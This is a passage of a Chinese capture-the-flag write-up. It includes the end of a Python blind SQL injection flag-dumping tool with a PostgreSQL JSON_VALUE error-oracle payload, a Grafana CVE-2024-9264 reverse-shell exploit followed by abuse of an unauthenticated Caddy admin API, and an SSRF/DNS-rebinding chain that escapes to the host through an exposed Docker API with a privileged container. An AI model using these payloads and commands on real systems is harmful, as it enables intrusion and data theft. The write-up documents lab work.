    secret_to_pre.add_argument("--ts", required=True, type=int)

    secret_to_mixed = sub.add_parser(
        "secret-to-mixed", help="rebuild mixed from secret2"
    )
    secret_to_mixed.add_argument(
        "--secret",
        required=True,
        help="32-byte value in hex or base64url",
    )
    secret_to_mixed.add_argument("--probe", required=True)
    secret_to_mixed.add_argument("--ts", required=True, type=int)

    material = sub.add_parser("material", help="fetch /api/sign material")
    add_http_args(material)

    sign_cmd = sub.add_parser("sign", help="build a valid sign for a query")
    add_http_args(sign_cmd)
    sign_cmd.add_argument("--q", required=True)
    sign_cmd.add_argument("--method", default="POST")
    sign_cmd.add_argument("--path", default="/api/query")
    sign_cmd.add_argument("--nonce")
    sign_cmd.add_argument("--ts", type=int)
    sign_cmd.add_argument("--seed")
    sign_cmd.add_argument("--salt")

    query_cmd = sub.add_parser("query", help="fetch material, sign, and send query")
    add_http_args(query_cmd)
    query_cmd.add_argument("--q", required=True)
    query_cmd.add_argument("--show-material", action="store_true")
    query_cmd.add_argument("--show-sign", action="store_true")

    pick_tpl = sub.add_parser("pick-template", help="find a working error template")
    add_http_args(pick_tpl)

    check = sub.add_parser("check-cond", help="test a boolean SQL condition")
    add_http_args(check)
    check.add_argument("--cond", required=True)
    check.add_argument("--template")

    dump = sub.add_parser("dump-flag", help="extract data with the error oracle")
    add_http_args(dump)
    dump.add_argument(
        "--expr",
        default="select flag from secrets limit 1",
        help="SQL scalar expression to extract",
    )
    dump.add_argument("--template")
    dump.add_argument("--max-len", type=int, default=96)
    dump.add_argument("--low", type=int, default=32)
    dump.add_argument("--high", type=int, default=126)

    return parser


def main() -> int:
    parser = build_parser()
    args = parser.parse_args()

    try:
        if args.cmd == "pre-to-secret":
            secret = unscramble(args.pre, args.nonce, args.ts)
            print_formats("secret", secret)
            return 0

        if args.cmd == "pre-to-mixed":
            secret = unscramble(args.pre, args.nonce, args.ts)
            mixed = mix_secret(secret, args.probe, args.ts)
            print_formats("secret", secret)
            print_formats("mixed", mixed)
            return 0

        if args.cmd == "mixed-to-secret":
            secret = unmix_secret(parse_32_bytes(args.mixed), args.probe, args.ts)
            print_formats("secret", secret)
            return 0

        if args.cmd == "secret-to-pre":
            pre = scramble(parse_32_bytes(args.secret), args.nonce, args.ts)
            print(f"pre.b64url = {pre}")
            return 0

        if args.cmd == "secret-to-mixed":
            mixed = mix_secret(parse_32_bytes(args.secret), args.probe, args.ts)
            print_formats("mixed", mixed)
            return 0

        session = make_session(args.ua)

        if args.cmd == "material":
            print(json.dumps(fetch_material(session, args.base, args.timeout), indent=2))
            return 0

        if args.cmd == "sign":
            material, sign = sign_from_args_or_fetch(
                session, args.base, args.timeout, args
            )
            print(
                json.dumps(
                    {
                        "q": args.q,
                        "method": args.method,
                        "path": args.path,
                        "nonce": material["nonce"],
                        "ts": int(material["ts"]),
                        "seed": material["seed"],
                        "salt": material["salt"],
                        "sign": sign,
                    },
                    indent=2,
                )
            )
            return 0

        if args.cmd == "query":
            status, data, material, sign = do_query(
                session, args.base, args.timeout, args.q
            )
            if args.show_material:
                print("[material]")
                print(json.dumps(material, indent=2))
            if args.show_sign:
                print("[sign]")
                print(sign)
            print(f"[http_status] {status}")
            print(json.dumps(data, indent=2, ensure_ascii=False))
            return 0 if status == 200 else 1

        if args.cmd == "pick-template":
            print(pick_template(session, args.base, args.timeout))
            return 0

        if args.cmd == "check-cond":
            template = args.template or pick_template(session, args.base, args.timeout)
            value = check_cond(session, args.base, args.timeout, args.cond, template)
            print(
                json.dumps(
                    {
                        "condition": args.cond,
                        "template": template,
                        "result": value,
                    },
                    indent=2,
                )
            )
            return 0

        if args.cmd == "dump-flag":
            template = args.template or pick_template(session, args.base, args.timeout)
            length = extract_length(
                session,
                args.base,
                args.timeout,
                template,
                args.expr,
                args.max_len,
            )
            chars = []
            for pos in range(1, length + 1):
                ch = extract_char(
                    session,
                    args.base,
                    args.timeout,
                    template,
                    args.expr,
                    pos,
                    args.low,
                    args.high,
                )
                chars.append(ch)
                sys.stdout.write("\r" + "".join(chars))
                sys.stdout.flush()
            sys.stdout.write("\n")
            print(
                json.dumps(
                    {
                        "expr": args.expr,
                        "length": length,
                        "template": template,
                        "value": "".join(chars),
                    },
                    indent=2,
                    ensure_ascii=False,
                )
            )
            return 0

        parser.error("unknown command")
        return 2
    except Exception as exc:
        print(f"error: {exc}", file=sys.stderr)
        return 1


if __name__ == "__main__":
    raise SystemExit(main())
```

最后运行`python decrypt_app_sign.py dump-flag`就可以解出来了

不过这里的话是用的PG17 中 `JSON_VALUE` 的强制转型报错

```postgresql
JSON_VALUE('{"a":"x"}','$.a' RETURNING INTEGER ERROR ON ERROR)
```

这里JSON_VALUE会尝试从JSON中提取`$.a`的值，也就是x，然后RETURNING INTEGER会尝试转化成整数，但是这里x没法转为整数，所以会报错，ERROR ON ERROR表示出错时会抛出异常

所以结合case语句可以打入这样的poc

```postgresql
' || (SELECT CASE WHEN (<cond>)
     THEN JSON_VALUE('{"a":"x"}','$.a' RETURNING INTEGER ERROR ON ERROR)
     ELSE 0 END) || '
```

cond就是打的二分注入

```bash
length((select flag from secrets limit 1)) > mid
ascii(substr((select flag from secrets limit 1), pos, 1)) > mid
```

# SU_Thief

```bash
The lazy admin neglected that the closest thief around him could help him steal /root/flag
那个懒惰的管理员忽视了他周围的最近的小偷可以帮助他偷 /root/flag
```

给ai分析了一下页面源代码提取一下版本信息，发现是Grafana v11.0.0，翻到一个历史cve CVE-2024-9264，但是是后台漏洞

```html
"sql_expressions":true
```

这个 feature toggle 对应 **CVE-2024-9264**，Grafana 的 SQL Expression 功能在 11.0.x 中存在通过 DuckDB 执行任意命令的漏洞。

```html
"publicDashboards":true
"publicDashboardsEnabled":true
"publicDashboardAccessToken":""
"anonymousEnabled":false
```

公开 Dashboard 功能是开启的，匿名访问关闭

## #爆破登录+CVE-2024-9264

尝试弱口令爆破一下登录页面拿到密码`1q2w3e`



既然知道了密码就可以直接打cve ，用github的poc：https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit 反弹shell





但是没想到还有第二关

这里发现tmp目录下有很多东西，后面才反应过来别人写进来的！服了，忘记是公共靶机了

## #Caddy Admin API 未鉴权

```bash
$ ps aux | grep root
root           1  0.0  0.0   2884   984 ?        Ss   Mar14   0:00 /bin/sh /start.sh
root           9  0.6  0.6 1269540 52528 ?       Sl   Mar14  11:42 caddy run --config /etc/caddy/caddy_config.json
root          22  0.0  0.0   2884   108 ?        S    Mar14   0:00 /bin/sh /start.sh
root          54  0.0  0.0   6208  3476 ?        S    Mar14   0:00 su -s /bin/bash grafana -c  /usr/share/grafana/bin/grafana-server   --homepath=/usr/share/grafana   --config=/etc/grafana/grafana.ini   --packaging=docker   cfg:default.log.mode=console 
root          56  0.0  0.0   2816  1040 ?        S    Mar14   0:07 tail -f /dev/null
root       43171  0.0  0.0   2784  1016 ?        S    10:09   0:00 sleep 300
grafana    43173  0.0  0.0   3464  1616 ?        S    10:10   0:00 grep root
```

列出系统所有进程，然后过滤出包含 "root" 的进程

发现root跑了一个**Caddy Web Server** 进程，尝试访问一下Caddy 的 Admin API

```bash
$ curl http://localhost:2019/config/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   150  100   150    0     0  74812      0 --:--:-- --:--:-- --:--:--  146k
{"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"handler":"reverse_proxy","upstreams":[{"dial":"127.0.0.1:3000"}]}]}]}}}}}
```

```json
{
    "apps": {
        "http": {
            "servers": {
                "srv0": {
                    "listen": [":80"],
                    "routes": [
                        {
                            "handle": [
                                {
                                    "handler": "reverse_proxy",
                                    "upstreams": [
                                        {
                                            "dial": "127.0.0.1:3000"
                                        }
                                    ]
                                }
                            ]
                        }
                    ]
                }
            }
        }
    }
}
```

Caddy 默认在 `localhost:2019` 开放管理 API，并且这里**没有 Admin API 鉴权配置**，任何本地用户都可以调用。

并且利用curl可以直接动态修改caddy的配置

file_server 是 Caddy 内置模块，可以用这个模块将静态文件服务目录进行修改，我们尝试修改为`/root`

```bash
curl -s -X POST http://localhost:2019/load -H "Content-Type: application/json" --data-raw '{"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"handler":"file_server","root":"/root"}]}]}}}}}'
```

然后我们请求一下目录下的flag就行了

```bash
curl http://localhost:80/flag
```



# SU_uri

## #SSRF打DNS重绑定+Docker 逃逸

```html
Meng spotted a simple webhook. Are there any attack vectors here?
Meng 发现了一个简单的 webhook。这里有任何攻击向量吗？
```

打开环境是一个Webhook转发调试器，需要传入请求地址以及body请求体内容

看着很像SSRF，我们尝试测一下



确实是存在的

但是过滤了一些东西，例如127.0.0.1这种都没法写，尝试用十六进制发现有新的回显

```bash
{"message":"resolve failed: lookup 0x7f000001 on 127.0.0.11:53: server misbehaving"}
```

好吧好像这里是因为并没有当成ip去解析而是走的Docker内置DNS服务器去做dns解析了

有可能是先做DNS解析然后才检查IP的？

试着做一下DNS重绑定

```json
{
  "url": "http://127.0.0.1.nip.io/",
  "body": "{ \"event\": \"ping\" }"
}
```

`http://127.0.0.1.nip.io` 其实是一个**用来把域名自动解析成指定 IP 的方法**，nip.io 是一个 **通配 DNS 服务**。

回显

```json
{"message":"blocked IP: 127.0.0.1"}
```

好吧，确实是先做了DNS解析然后才进行IP的检查的，那试着打一下DNS重绑定

试了之后发现只能用 rr.1u.ms 做重绑定

```bash
格式：{前缀}-make-{安全IP}-rebind-{目标IP}-rr.1u.ms

{
  "url": "http://test1-make-156.239.238.130-rebind-127.0.0.1-rr.1u.ms:8080/",
  "body": "{ \"event\": \"ping\" }"
,"eolxp2nlc7t":"="}
```

然后在服务器上用nc开启8080服务监听



发现成功了，成功请求到题目页面

然后看看能不能找到flag，需要注意这里的前缀要经常换



但是这里仅仅只是能打ssrf，没法达到命令执行的效果

因为前面发现存在docker内置DNS服务解析，所以看看能不能打docker逃逸

看到一个Docker 远程 API 未授权访问逃逸 

https://wiki.teamssix.com/cloudnative/docker/docker-remote-api-unauth-escape.html

https://www.cnblogs.com/yuy0ung/articles/18819294

探测一下2375端口发现回显404（需要多试几次，因为这个dns重绑定不太稳定）



能确认存在该漏洞，然后尝试访问`/version`获取版本信息，但是我一直没访问成功，估计需要GET请求？我整不出这里

那就直接创建一个容器

```http
http://[任意前缀]-make-38.55.99.239-rebind-127.0.0.1-rr.1u.ms:2375/containers/create

body:
{"Image":"alpine","Cmd":["/bin/sh","-c","sleep 600"],"HostConfig":{"Binds":["/:/host"],"Privileged":true}}
```

这里的话sleep 600是为了让容器运行久一点，不然后面就没了

解释一下body参数

```json
{
    "Image":"alpine",
    "Cmd":["/bin/sh","-c","sleep 600"],	--保持容器存活供后续 exec 使用
    "HostConfig":
    {
        "Binds":["/:/host"],	--宿主机 / 根目录 挂载到容器 /host/
        "Privileged":true	-- 获取完整宿主机权限
    }
}
```

回显了容器ID

```json
{
  "message": "forwarded",
  "target_status": 201,
  "target_body": "{\"Id\":\"c2255a928ad8a4b2a14238b9f685aca6dcebb17c7fad20dc97ad2b296c54a5fc\",\"Warnings\":[]}\n"
}
```

然后启动容器

```http
http://[任意前缀]-make-38.55.99.239-rebind-127.0.0.1-rr.1u.ms:2375/containers/[id]/start

body:
{}
```



出现204就表示启动成功了

然后创建一个exec实例

```http
http://[任意前缀]-make-38.55.99.239-rebind-127.0.0.1-rr.1u.ms:2375/containers/[id]/exec

{"AttachStdout":true,"AttachStderr":true,"Cmd":["/bin/sh","-c","ls /"]}
```

拿到exec ID

```json
{
  "message": "forwarded",
  "target_status": 201,
  "target_body": "{\"Id\":\"12d2eb1564fc34f189ae7af8f4b045affdbd950d9345149d527e8d72eacf2609\"}\n"
}
```

最后启动 exec

```http
http://[任意前缀]-make-38.55.99.239-rebind-127.0.0.1-rr.1u.ms:2375/exec/[exec实例id]/start

{"Detach":false,"Tty":false}
```

解释一下body

```json
{
    "Detach":false,		--false为前台运行，webhook 同步等待命令执行完，把输出一起返回
    "Tty":false			--false为不分配终端，输出用 multiplexed stream 格式，前8字节是 header
}
```



成功RCE，后面再重新创建容器或者直接创建exec实例并启动就行了



当然反弹shell的话也是可以的，但是需要用nc去弹


